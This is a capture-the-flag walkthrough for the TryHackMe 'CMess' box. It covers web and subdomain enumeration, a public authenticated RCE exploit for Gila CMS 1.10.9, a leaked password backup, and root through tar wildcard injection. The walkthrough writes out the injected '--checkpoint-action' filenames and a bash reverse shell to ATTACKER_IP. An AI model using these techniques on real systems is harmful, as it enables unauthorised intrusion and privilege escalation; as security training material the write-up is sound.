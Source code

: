 ```yaml
---
layout: post
title:  "CMess Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/cmess){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!
{: .prompt-tip }

When the IP is available, we'll need to add it to
`/etc/hosts`

```
VICTIM_IP cmess.thm
```

## Enumeration
### Ports
Let's start off with a port scan to see what services 
are available

```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```

![scan1](/images/cmess/cmess-scan1.png)

![scan2](/images/cmess/cmess-scan2.png)

We have two ports open
- 22: SSH
- 80: HTTP

### Subdirectories
It's usually a good idea to have run some enumeration in the background while you're working on something else. Maybe we can find some interesting web pages which will be useful later

```bash
dirsearch -w /usr/share/wordlists/dirb/big.txt -r --threads=100 --url=http://cmess.thm --output=dirsearch.txt
```

![dirsearch](/images/cmess/cmess-dirsearch.png)
There are a lot of directories available but for now let's take note of
`/admin`. It leads to a login page but we don't have any credentials yet.

### Subdomains
Since we're given a domain from the jump let's also check for subdomains

```bash
wfuzz -c --hc 302 -t 50 -u http://cmess.thm -H 'Host: FUZZ.cmess.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 290
```

![subdomains](/images/cmess/cmess-subdomains.png)

Add this new subdomain to `/etc/hosts`  to make it accessible. It should look like this

```
VICTIM_IP cmess.thm dev.cmess.thm
```

Now we can visit the page

![dev](/images/cmess/cmess-dev.png)

It's a development message log and we've found credentials for andre!

### Dashboard
At this point we have a login page and credentials so let's see what else we can find by logging in

![login](/images/cmess/cmess-login.png)

![admin](/images/cmess/cmess-admin.png)

We have a version number! Let's see if there's something we can do with this

## Initial Foothold
> Are there any public exploits for Gila CMS version 1.10.9?
{: .prompt-tip}

```bash
searchsploit gila 1.10.9
```

![searchsploit](/images/cmess/cmess-searchsploit.png)

Remote code execution that requires authentication! We fulfill those requirements so let's pull the code and inspect the source

```bash
searchsploit -m 51569
cat 51569.py
```

![exploit-source](/images/cmess/cmess-exploit-source.png)

So this code uploads a php web shell and then executes a bash reverse shell! We'll need to setup a listener to accept the reverse shell. We can do that with

```bash
nc -lvnp 4444
```

Now we can run the exploit with andre's credentials

```bash
python3 51569.py
```

![rce](/images/cmess/cmess-rce.png)

![www-data](/images/cmess/cmess-www-data.png)

We have a shell! Since python3 is on the box let's upgrade and stabilize our shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> Are there any interesting credential or backup files?
{: .prompt-tip}

We can search the filesystem for backup files which use the
`bak` extension using this command

```bash
find / -type f -name "*bak*" -ls 2>/dev/null
```

![bak](/images/cmess/cmess-bak.png)

Running 
[linpeas](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md){:target="_blank"}{:rel="noopener noreferrer"}
also finds this file in the `Backup Files` and
`Password Files`sections, but it can easily be overlooked if you aren't reading carefully

![linpeas-bak](/images/cmess/cmess-linpeas-bak.png)

![linpeas-pw](/images/cmess/cmess-linpeas-pw.png)

Let's read the file and escalate our privileges

```bash
cat /opt/.password.bak
```

![user-flag](/images/cmess/cmess-user-flag.png)

## Root
> Are there any processes run as root on a schedule?
{: .prompt-tip}

By checking `/etc/crontab` we can see a list of scheduled commands and what privileges they run with

```bash
cat /etc/crontab
```

![crontab](/images/cmess/cmess-crontab.png)

So [every 2 minutes](https://crontab.cronhub.io){:target="_blank"}{:rel="noopener noreferrer"}
root will backup everything in andre's backup directory using a tar wildcard.

> Can wildcards be abused when run with tar?
{: .prompt-tip}

They can! This is known as 
[wildcard injection](https://www.exploit-db.com/papers/33930){:target="_blank"}{:rel="noopener noreferrer"}. 
By using a filename with the same format as a command flag, we can enable that command option! By only using command flags, we can 
[execute arbitrary commands using tar](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar){:target="_blank"}{:rel="noopener noreferrer"}.
Let's set up some files which will give us a reverse shell as root

```bash
cd /home/andre/backup
echo 'asdf' > '--checkpoint=1'
echo 'asdf' > '--checkpoint-action=exec=sh shell.sh'
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" > shell.sh
```

Now we wait with a listener on our machine

```bash
nc -lvnp 4444
```

![root](/images/cmess/cmess-root.png)

## Recap
Subdomain and subdirectory enumeration revealed an admin login page and credentials to use. A public exploit for GilaCMS v1.10.9 leads to an initial foothold into the system. A hidden password backup file escalates our privileges to another user. A cron job is vulnerable to tar wildcard injection which gives us root.
